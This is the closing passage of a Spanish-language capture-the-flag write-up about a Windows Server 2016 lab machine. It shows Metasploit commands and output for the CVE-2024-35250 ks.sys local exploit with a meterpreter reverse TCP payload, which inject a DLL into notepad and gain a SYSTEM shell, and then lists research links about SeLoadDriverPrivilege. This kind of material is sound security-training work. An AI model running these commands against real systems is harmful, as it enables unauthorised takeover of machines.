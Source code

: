 Vamos a usarlo:
```bash
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/cve_2024_35250_ks_driver
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2024_35250_ks_driver) >
```

Lo configuramos:
```bash
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > set LPORT 5555
LPORT => 5555
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > set LHOST Tu_IP
LHOST => Tu_IP
```

Y lo ejecutamos:
```bash
msf6 exploit(windows/local/cve_2024_35250_ks_driver) > exploit
[*] Started reverse TCP handler on Tu_IP:5555 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows Server 2016
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 732
[*] Reflectively injecting the DLL into 732...
[*] Sending stage (203846 bytes) to 192.168.69.69
[*] Meterpreter session 4 opened (Tu_IP:5555 -> 192.168.69.69:49820) at 2025-02-25 02:27:20 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
Listo, volvimos a escalar privilegios.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://github.com/ropnop/kerbrute
* https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html?highlight=SeLoadDriverPrivilege#seloaddriverprivilege
* https://github.com/JoshMorrison99/SeLoadDriverPrivilege?tab=readme-ov-file
* https://github.com/k4sth4/SeLoadDriverPrivilege
* https://www.tarlogic.com/es/blog/explotacion-seloaddriverprivilege/


<br>

# FIN
